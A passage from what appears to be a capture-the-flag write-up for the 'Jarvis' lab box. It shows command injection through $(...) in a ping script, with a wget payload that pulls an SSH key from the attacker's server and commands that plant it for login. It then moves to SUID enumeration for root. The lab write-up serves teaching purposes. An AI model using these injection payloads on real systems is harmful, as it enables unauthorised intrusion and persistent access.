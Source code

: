     if __name__ == '__main__':
        show_header()
        if len(sys.argv) != 2:
            show_help()
            exit()
        if sys.argv[1] == '-h' or sys.argv[1] == '--help':
            show_help()
            exit()
        elif sys.argv[1] == '-s':
            show_statistics()
            exit()
        elif sys.argv[1] == '-l':
            list_ip()
            exit()
        elif sys.argv[1] == '-p':
            exec_ping()
            exit()
        else:
            show_help()
            exit()

We notice the `exec_ping` function calling `os.system()`. As there is forbidden
character we cannot simply execute a second command (with a `;` or a `&&`).
Nevertheless we can try to ping the result of a command with the following
`$(<command>)`.
We mount a python web server with our ssh public key renamed authorized\_keys and
download it from the box:

    Enter an IP: $(wget 10.10.15.31:8080/authorized_keys)

We then create the `.ssh` folder in pepper home and move the key:

    Enter an IP: $(mkdir /home/pepper/.ssh)
    Enter an IP: $(mv authorized_keys /home/pepper/.ssh/)

We can then connect to the box with ssh and get the user flag:

    ssh -lpepper 10.10.10.143
    Linux jarvis 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64
    <SNIP>
    Last login: Thu Oct  3 09:38:52 2019 from 10.10.15.31
    pepper@jarvis:~$ cat user.txt 
    2afa36<redacted>

# Let's get root

We enumerate the box as always.
We found that the systemctl binary is SUID.

    pepper@jarvis:~$ find / -uid 0 -perm -4000 -type f 2>/dev/null
    /bin/fusermount
    /bin/mount
    /bin/ping
    /bin/systemctl
    /bin/umount
    /bin/su
    /usr/bin/newgrp
    /usr/bin/passwd
    /usr/bin/gpasswd
    /usr/bin/chsh
    /usr/bin/sudo
    /usr/bin/chfn
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/openssh/ssh-keysign
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
